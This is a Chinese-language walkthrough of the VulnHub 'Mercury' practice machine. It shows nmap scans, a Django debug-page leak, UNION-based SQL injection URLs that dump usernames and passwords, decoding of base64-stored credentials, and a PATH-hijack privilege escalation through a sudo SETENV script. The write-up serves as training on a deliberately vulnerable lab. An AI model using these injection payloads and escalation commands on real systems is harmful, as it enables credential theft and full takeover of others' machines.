







# 前言

### 靶场介绍

Mercury 是一台偏简单的靶机，适合入门到进阶过渡阶段练手，主要练的是 Django 调试模式信息泄露、手工 SQL 注入拿凭据，以及拿到立足点之后的横向移动和环境变量劫持提权。整体攻击链清晰，没有太多绕弯子的地方。

### 靶场信息

| 项目 | 内容 |
| --- | --- |
| 靶机名称 | Mercury |
| 靶机 IP | 192.168.200.128 |
| 靶机官网 | https://www.vulnhub.com/entry/the-planets-mercury,544/ |
| 镜像下载 | https://download.vulnhub.com/theplanets/Mercury.ova |

### 涉及工具

- nmap
- 浏览器（手工 SQL 注入）


---

# 1.信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
nmap -sT -p- --min-rate 10000 192.168.200.128 -oA ports
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 00:0C:29:AF:1C:5C (VMware)
```

### 详细信息

```bash
nmap -sT -sV -sC -O -p22,8080 192.168.200.128 -oA detail
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-25 03:19 -0400
Nmap scan report for 192.168.200.128
Host is up (0.00048s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http    WSGIServer 0.2 (Python 3.8.2)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-robots.txt: 1 disallowed entry
|_/
MAC Address: 00:0C:29:AF:1C:5C (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.64 seconds
```

只有 22 和 8080 两个端口，8080 跑的是 Python WSGIServer，从 banner 基本能判断后端是 Django，重点放在这上面。

## 1.2 Web 探测

直接访问 8080，页面报了 Django 的调试错误，说明 `DEBUG = True` 还开着：



> You're seeing this error because you have `DEBUG = True` in your Django settings file. Change that to `False`, and Django will display a standard 404 page.

调试页里直接把路由配置暴露出来了：

```text
Using the URLconf defined in `mercury_proj.urls`, Django tried these URL patterns, in this order:

1. [name='index']
2. robots.txt [name='robots']
3. mercuryfacts/

	The current path, `admin`, didn't match any of these.
```

顺着路由去看 `mercuryfacts/`：

http://192.168.200.128:8080/mercuryfacts/



按 id 访问具体的 fact，比如 `mercuryfacts/1/`：

```text
Fact id: 1. (('Mercury does not have any moons or rings.',),)
Fact id: 2. (('Mercury is the smallest planet.',),)
Fact id: 3. (('Mercury is the closest planet to the Sun.',),)
Fact id: 4. (('Your weight on Mercury would be 38% of your weight on Earth.',),)
Fact id: 5. (('A day on the surface of Mercury lasts 176 Earth days.',),)
Fact id: 6. (('A year on Mercury takes 88 Earth days.',),)
Fact id: 7. (("It's not known who discovered Mercury.",),)
Fact id: 8. (('A year on Mercury is just 88 days long.',),)
```

再看 `mercuryfacts/todo`，里面是开发者留的待办：

```text
Still todo:

- Add CSS.
- Implement authentication (using users table)
- Use models in django instead of direct mysql call
- All the other stuff, so much!!!
```

这里提到 `Use models in django instead of direct mysql call`，说明现在还是直接拼接 mysql 查询，没走 ORM——结合前面 id 参数会带进查询，这个点值得测一下注入。

---
# 2.权限立足

先用闭合加恒假条件测一下 `mercuryfacts/1/` 这个 id 参数：

http://192.168.200.128:8080/mercuryfacts/1'%20and%201%3D2%20--%20-/



确认存在注入后，开始用 union 联合查询逐步爆库爆表爆字段：

```text
http://192.168.200.128:8080/mercuryfacts/1 union select database() -- +
mercury


http://192.168.200.128:8080/mercuryfacts/1 union select group_concat(table_name) from information_schema.tables
where table_schema=database() -- +

facts,users


http://192.168.200.128:8080/mercuryfacts/1 union select group_concat(column_name) from information_schema.columns
where table_schema=database() and table_name='users' -- +

('id,password,username',))


http://192.168.200.128:8080/mercuryfacts/1 union select group_concat(id,'-',password,'-',username) from users -- +

('1-johnny1987-john,2-lovemykids111-laura,3-lovemybeer111-sam,4-mercuryisthesizeof0.056Earths-webmaster',))
```

拿到了四组凭据，重点关注最后一组 `webmaster`：

```text
mercuryisthesizeof0.056Earths / webmaster
```



---
# 3.提权

## 3.1 信息收集

用 webmaster 登录后先过一遍常见基础信息。

先看当前用户的 sudo 权限：

```bash
webmaster@mercury:~$ sudo -l
[sudo] password for webmaster:
Sorry, user webmaster may not run sudo on mercury.
```

再翻计划任务：

```bash
webmaster@mercury:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

再找 SUID 文件：

```bash
webmaster@mercury:~$ find / -perm -u=s -type f 2>/dev/null
```

sudo 没权限、crontab 没可利用项、SUID 也没找到东西。

## 3.2 拿 user flag 与翻找凭据

先把 user flag 拿了：

```bash
webmaster@mercury:~$ pwd
/home/webmaster

webmaster@mercury:~$ ll
total 36
drwx------ 4 webmaster webmaster 4096 Sep  2  2020 ./
drwxr-xr-x 5 root      root      4096 Aug 28  2020 ../
lrwxrwxrwx 1 webmaster webmaster    9 Sep  1  2020 .bash_history -> /dev/null
-rw-r--r-- 1 webmaster webmaster  220 Aug 27  2020 .bash_logout
-rw-r--r-- 1 webmaster webmaster 3771 Aug 27  2020 .bashrc
drwx------ 2 webmaster webmaster 4096 Aug 27  2020 .cache/
drwxrwxr-x 5 webmaster webmaster 4096 Aug 28  2020 mercury_proj/
-rw-r--r-- 1 webmaster webmaster  807 Aug 27  2020 .profile
-rw-rw-r-- 1 webmaster webmaster   75 Sep  1  2020 .selected_editor
-rw------- 1 webmaster webmaster   45 Sep  1  2020 user_flag.txt

webmaster@mercury:~$ cat user_flag.txt
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```



继续翻家目录里的 `mercury_proj`，注意到一个 `notes.txt`，把它读出来：

```bash
webmaster@mercury:~/mercury_proj$ ll
total 28
drwxrwxr-x 5 webmaster webmaster 4096 Aug 28  2020 ./
drwx------ 4 webmaster webmaster 4096 Sep  2  2020 ../
-rw-r--r-- 1 webmaster webmaster    0 Aug 27  2020 db.sqlite3
-rwxr-xr-x 1 webmaster webmaster  668 Aug 27  2020 manage.py*
drwxrwxr-x 6 webmaster webmaster 4096 Sep  1  2020 mercury_facts/
drwxrwxr-x 4 webmaster webmaster 4096 Aug 28  2020 mercury_index/
drwxrwxr-x 3 webmaster webmaster 4096 Aug 28  2020 mercury_proj/
-rw------- 1 webmaster webmaster  196 Aug 28  2020 notes.txt

webmaster@mercury:~/mercury_proj$ cat notes.txt
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

里面是两个账户的凭据，密码是 base64 编码的，解一下 `linuxmaster` 那条：

```bash
echo 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' | base64 -d
mercurymeandiameteris4880km
```

## 3.3 横向移动到 linuxmaster

横向移动到 `linuxmaster`，再看一下它的 sudo 权限：

```bash
webmaster@mercury:~/mercury_proj$ su linuxmaster
Password:

linuxmaster@mercury:/home/webmaster/mercury_proj$ sudo -l
[sudo] password for linuxmaster:
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

这里关键点是 `SETENV`——允许保留环境变量执行 `/usr/bin/check_syslog.sh`。脚本里如果用了相对路径调命令（比如 `tail`），就能通过 PATH 劫持把自己的恶意 `tail` 顶上去，用 root 身份执行。

## 3.4 环境变量劫持提权

在 `/tmp` 下伪造一个 `tail`，让它直接拉起一个 bash，然后保留 PATH 调用目标脚本：

```bash
cd /tmp
cat > tail << 'EOF'
#!/bin/bash
/bin/bash
EOF
chmod +x tail
sudo PATH=/tmp:$PATH /usr/bin/check_syslog.sh
```



拿到 root，读取 root flag：

```text
Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```



---
# 4.总结

对比前一台靶机难度真的少了很多，唯一的不足就是对 Python 搭建的 Web 环境不是很熟悉，但是在搜索和 AI 的帮助下，马上就找到了重点，使用 SQL 注入获取到了凭证。后续的提权也非常简单没绕什么弯子，通过 Web 泄露的凭证登入了一个账户，权限横移，环境变量劫持轻松拿下。

---
# 5.补充

**Django 是什么**

Django 是一个用 Python 写的 Web 框架——就是用来快速搭建网站后端的工具。你之前接触过 WordPress（PHP 写的），Django 是同一个生态位的东西，只不过用 Python。Nmap 扫出的 `WSGIServer 0.2 (Python 3.8.2)` 就是它的运行特征：Python 写的 Web 服务。

**URLconf / URL 模式是什么**

Django 网站的核心机制：开发者预先定义一张"路由表"，规定哪些网址路径对应哪些功能。你访问 `/admin` 时，Django 拿这个路径去和路由表逐条比对，没匹配上，就报 404。
